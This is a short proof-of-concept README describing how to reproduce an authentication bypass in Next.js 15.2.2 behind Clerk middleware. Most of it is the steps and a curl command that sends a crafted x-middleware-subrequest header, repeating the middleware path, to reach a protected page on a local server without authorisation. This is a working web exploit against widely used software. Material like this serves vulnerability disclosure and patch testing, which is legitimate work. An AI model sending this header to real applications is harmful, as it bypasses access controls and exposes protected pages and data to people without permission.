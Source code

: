 # Steps to reproduce the auth bypass:

This POC expands on the method shows here: https://x.com/tweetsbycolin/status/1904228526053896418

Even if we call the `const {userId} = await auth()` function on a protected page, the exploit still works unless handeled manually with a redirect.

1. Mak sure to use a vulnerable version of next. In my case, it's 15.2.2
2. Install the Clerk SDK and set it up through an auth middleware
3. Stage the Payload using curl or an HTTP client
   ```bash
   curl -H "x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware" http://localhost:3000/secret
   ```
5. Send the request to the server
6. The server will respond with the protected page without throwing an error

# Screen recoding
https://cln.sh/XPy3ZQHm
